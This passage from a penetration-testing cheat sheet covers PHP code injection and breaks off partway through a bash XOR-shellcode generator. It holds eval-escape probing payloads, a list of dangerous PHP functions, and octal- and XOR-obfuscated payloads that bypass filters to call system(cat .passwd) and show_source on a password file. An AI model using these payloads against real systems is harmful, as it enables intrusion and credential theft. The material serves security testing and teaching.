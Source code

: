 You can also use **//** to comment the rest of the code.

To discover the number of parenthesis that you need to close:

* `?order=id;}//`: we get an error message \(`Parse error: syntax error, unexpected ';'`\). We are probably missing one or more brackets.
* `?order=id);}//`: we get a **warning**. That seems about right.
* `?order=id));}//`: we get an error message \(`Parse error: syntax error, unexpected ')' i`\). We probably have too many closing brackets.

### **Code execution via .httaccess**

If you can **upload** a **.htaccess**, then you can **configure** several things and even execute code \(configuring that files with extension .htaccess can be **executed**\).

Different .htaccess shells can be found [here](https://github.com/wireghoul/htshells)

## PHP Static analysis

Look if you can insert code in calls to these functions \(from [here](https://www.youtube.com/watch?v=SyWUsN0yHKI&feature=youtu.be)\):

```php
exec, shell_exec, system, passthru, eval, popen
unserialize, include, file_put_cotents
$_COOKIE | if #This mea
```

If yo are debugging a PHP application you can globally enable error printing in`/etc/php5/apache2/php.ini` adding `display_errors = On` and restart apache : `sudo systemctl restart apache2`

## Execute PHP without letters

[https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

### Using octal

```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```

### **XOR**

```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```

### XOR Shellcode \(inside eval\)

```bash
#!/bin/bash

if [[ -z $1 ]]; then
  echo "USAGE: $0 CMD"
  exit
fi

CMD=$1
CODE="\$_='\
```
